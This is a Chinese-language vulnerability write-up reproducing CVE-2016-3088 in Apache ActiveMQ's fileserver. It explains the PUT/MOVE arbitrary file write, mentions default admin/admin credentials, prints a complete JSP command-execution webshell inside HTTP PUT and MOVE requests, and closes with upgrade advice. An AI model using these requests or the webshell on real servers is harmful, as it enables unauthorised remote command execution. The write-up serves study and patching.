 # ActiveMQ任意文件写入漏洞（CVE-2016-3088）

![](imgs/1.jpg)

## 1. 漏洞描述

* 漏洞描述：ActiveMQ是目前较为流行的一款开源消息服务器。默认情况下，ActiveMQ服务是没有配置安全参数，恶意人员利用默认配置弱点实现远程命令执行攻击，获取服务器权限，从而导致数据泄露事件发生。
* 漏洞编号：CVE-2016-3088
* 漏洞等级：高危
* 漏洞版本：ActiveMQ 5.0.0 - 5.13.2

## 2. 漏洞简介

ActiveMQ 是 Apache 软件基金会下的一个开源消息驱动中间件软件。Jetty 是一个开源的 servlet 容器，它为基于 Java 的 web 容器，例如 JSP 和 servlet 提供运行环境。ActiveMQ 5.0 及以后版本默认集成了jetty。在启动后提供一个监控 ActiveMQ 的 Web 应用。

2016年4月14日，国外安全研究人员 Simon Zuckerbraun 曝光 Apache ActiveMQ Fileserver 存在多个安全漏洞，可使远程攻击者用恶意代码替代Web应用，在受影响系统上执行远程代码（CVE-2016-3088）。

## 3. 漏洞分析

### 3.1 漏洞利用方式

本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。

文件写入有几种利用方法：

1. 写入webshell
2. 写入cron或ssh key等文件
3. 写入jar或jetty.xml等库和配置文件


写入webshell的好处是，门槛低更方便，但前面也说了fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；写入jar，稍微麻烦点（需要jar的后门），写入xml配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道activemq的绝对路径。

### 3.2 漏洞原理分析

ActiveMQ 中的 FileServer 服务允许用户通过 HTTP PUT 方法上传文件到指定目录,下载 ActiveMQ 源码 ，可以看到后台处理 PUT 的关键代码如下：

![](imgs/2.png)

用户可以上传文件到指定目录，该路径在 conf/jetty.xml 中定义，如下

![](imgs/3.png)

前面说了，写入webshell，需要写在admin或api应用中，而这俩应用都需要登录才能访问。

默认的ActiveMQ账号密码均为admin，首先访问http://your-ip:8161/admin/test/systemProperties.jsp，查看ActiveMQ的绝对路径：

![](imgs/4.png)

顺着 PUT 方法追踪，可以看到调用了如下函数

![](imgs/5.png)

同时看到后台处理 MOVE 的关键代码如下，可以看到该方法没有对目的路径做任何限制或者过滤。

![](imgs/6.png)

由此，我们可以构造PUT请求上传 webshell 到 fileserver 目录，然后通过 Move 方法将其移动到有执行权限的 admin/ 目录。

## 4. 漏洞复现

1.访问网站，通过burpsuite进行数据包拦截：

![](imgs/7.png)

2.抓取到数据包右键`Send to Repeater`进行数据包篡改即转发。

![](imgs/8.png)

3.构造恶意payload，然后上传webshell：

```http
PUT /fileserver/2.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```

![](imgs/10.png)

我们登上服务器，可以看到2.txt被成功上传到fileserver文件夹中：

![](imgs/9.png)

我们虽然上传了webshell，但是你访问这个wenshell的时候，你会发现webshell没有被执行，
所以我们需要将webshell移动到可执行目录下（/opt/activemq/webapps/api/s.jsp）。

```http
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: 218.2.197.232:27812
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 389

<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```

![](imgs/11.png)

访问webshell:

![](imgs/12.png)

执行命令，查看flag：

![](imgs/13.png)

## 5. 修复意见

1. ActiveMQ Fileserver 的功能在 5.14.0 及其以后的版本中已被移除。建议用户升级至 5.14.0 及其以后版本。

2. 通过移除 conf\jetty.xml 的以下配置来禁用 ActiveMQ Fileserver 功能
